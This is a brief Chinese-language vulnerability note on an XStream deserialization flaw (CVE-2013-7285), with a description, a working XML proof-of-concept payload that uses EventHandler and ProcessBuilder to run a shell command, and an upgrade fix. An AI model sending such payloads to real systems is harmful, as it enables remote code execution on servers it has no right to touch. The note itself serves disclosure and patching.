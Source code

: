 ### 一 漏洞描述
XStream是Java类库，用来将对象序列化成XML(JSON)或反序列化为对象。  
包含类型信息的流在unmarshalling时，会再次创建之前写入的对象。因此XStream会基于这些类型信息创建新的实例。攻击者可以操控XML数据，将恶意命令注入在在可以执行任意shell命令的对象中，实现漏洞的利用。
该漏洞原本是CVE-2013-7285。

### 二 漏洞利用
```
<sorted-set>
<string>foo</string>
<dynamic-proxy>
<interface>java.lang.Comparable</interface>
<handler class="java.beans.EventHandler">
<acc>1</acc>
<target class="java.lang.ProcessBuilder">
<command>
<string>touch</string>
<string>/tmp/success</string>
</command>
</target>
<action>start</action>
</handler>
</dynamic-proxy>
</sorted-set>
```

### 三 漏洞修复
升级至1.4.11以上

> 参考链接  
> https://blog.csdn.net/Finlinlts/article/details/120578742

